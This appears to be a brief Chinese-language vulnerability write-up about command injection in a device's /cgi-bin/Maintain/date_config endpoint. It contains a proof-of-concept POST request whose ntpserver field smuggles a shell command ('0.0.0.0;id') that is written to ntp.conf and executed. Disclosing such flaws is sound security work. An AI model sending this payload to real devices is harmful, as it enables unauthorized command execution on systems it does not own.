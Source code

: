 构造请求

```
POST /cgi-bin/Maintain/date_config

ntpserver=0.0.0.0;id&year=2021&month=08&day=14&hour=17&minute=04&second=50&tz=Asiz&bcy=Shanghai&ifname=fxp1
```

![image-20230314085313769](images/image-20230314085313769.png)

成功写入 ntp.conf 文件为 0.0.0.0;id, 再次访问该页面就可以获取命令执行结果

![image-20230314085338637](images/image-20230314085338637.png)

交互处可进行命令拼接造成注入

![image-20230314085353610](images/image-20230314085353610.png)


